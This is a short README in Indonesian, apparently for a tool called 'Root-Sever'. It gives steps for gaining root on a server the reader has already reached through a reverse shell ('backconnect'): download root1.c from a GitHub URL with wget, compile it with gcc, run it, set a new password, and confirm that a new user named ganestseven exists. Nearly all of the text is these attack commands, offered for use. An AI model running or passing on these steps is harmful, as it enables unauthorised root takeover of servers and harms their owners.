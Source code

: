 # Root-Sever
sebelum pakai pastikan backconect terlebih dahulu
wget https://raw.githubusercontent.com/ganest-seven/Root-Sever/main/root1.c 
lalu compile file nya 
# comand nya
# gcc -pthread root1.c -o g7 -lcrypt
# chmod +x g7
# ./g7
lalu buat password baru dan tunggu proses selsai (agak lama)
lau id ganestseven
selesai
